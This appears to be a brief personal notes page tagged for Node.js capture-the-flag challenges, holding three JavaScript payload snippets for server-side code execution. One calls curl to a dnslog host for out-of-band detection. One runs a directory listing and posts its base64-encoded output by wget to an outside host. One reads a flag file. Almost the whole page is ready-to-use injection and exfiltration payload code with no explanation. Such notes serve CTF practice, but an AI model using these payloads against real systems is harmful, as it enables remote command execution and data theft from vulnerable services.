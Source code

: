 -
- tags:: [[CTF/NodeJS]]
-
- # 施工中
	- ```js
	  require("child_process").spawn("curl", ["52s3km.dnslog.cn"]);
	  ```
	- ```js
	  require("child_process").spawn("ls", ["-la"]).stdout.on("data", data => {
	      require("child_process").spawn("wget", ["ca.xxx.xyz:3003", "--post-data", btoa(data)]);
	  });
	  ```
	- ```js
	  require("child_process").spawnSync(
	    'cat',
	    ['fl001g.txt']
	  ).stdout.toString()
	  
	  ```